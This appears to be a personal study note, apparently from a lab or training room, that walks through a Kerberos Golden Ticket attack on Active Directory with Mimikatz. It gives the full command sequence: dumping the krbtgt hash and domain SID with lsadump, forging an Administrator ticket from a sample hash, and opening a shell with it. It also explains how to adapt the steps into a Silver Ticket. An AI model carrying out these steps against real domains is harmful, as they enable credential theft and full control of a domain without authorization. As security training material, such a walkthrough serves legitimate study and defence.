 # Golden/Silver Ticket attack

In order to create a golden ticket, we need the KRBTGT = service account that create TGT with KDC  
In order to create a silver ticket, we only need any accessible account that can log into the desired service

# Golden Ticket
## Dump krbtgt hash w/ Mimikatz
Starts mimikatz : 
```cmd
privilege::debug 
```
ensure this outputs `privilege '20' ok]` 

```cmd
lsadump::lsa /inject /name:krbtgt 
```

- This will dump the hash as well as the security identifier needed to create a Golden Ticket. 
- To create a silver ticket you need to change the /name value to the service you want.

The output will be useful for the next step :
["Mimikatz"](images/mimikatz_lsadump.png)

## CREATE THE GOLDEN TICKET
```cmd
Kerberos::golden /user:Administrator /domain:CONTROLLER.local /sid:S-1-5-21-432953485-3795405108-1502158860 /krbtgt:72cd714611b64cd4d5550cd2759db3f6 /id:500
```

- Administrator : The username
- domain : The domain controller name
- SID : the second part of the first line from the output
- krbtgt : the primary NTLM hash
- id : 500 -> idk what is that

## USE THE GOLDEN TICKET
```cmd 
misc::cmd
```
